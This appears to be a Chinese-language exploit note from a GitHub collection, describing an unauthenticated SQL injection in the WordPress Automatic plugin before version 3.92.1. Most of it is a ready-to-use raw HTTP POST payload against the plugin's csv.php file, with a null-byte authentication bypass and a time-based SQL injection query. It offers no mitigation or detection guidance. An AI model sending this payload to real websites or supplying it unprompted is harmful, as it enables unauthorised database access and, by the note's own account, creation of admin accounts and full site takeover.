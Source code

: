 ### 漏洞描述：

WordPress Automatic插件存在未授权SQL注入漏洞，远程攻击者可以利用它获得对网站的未经授权访问，创建管理员级别的用户帐户，上传恶意文件，并可能完全控制受影响的网站。

### 影响版本：

WordPress Automatic插件版本<3.92.1

### Payload：
```
POST/wp-content/plugins/wp-automatic/inc/csv.php HTTP/1.1
Host:host
User-Agent:Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0
Accept:*/*
Accept-Language:zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding:gzip, deflate
Content-Type:application/x-www-form-urlencoded
Connection:close

q=SELECT+IF(1=1,sleep(3),sleep(0))&auth=%00&integ=111626f5f910d38cf6de27181780707e
```

---
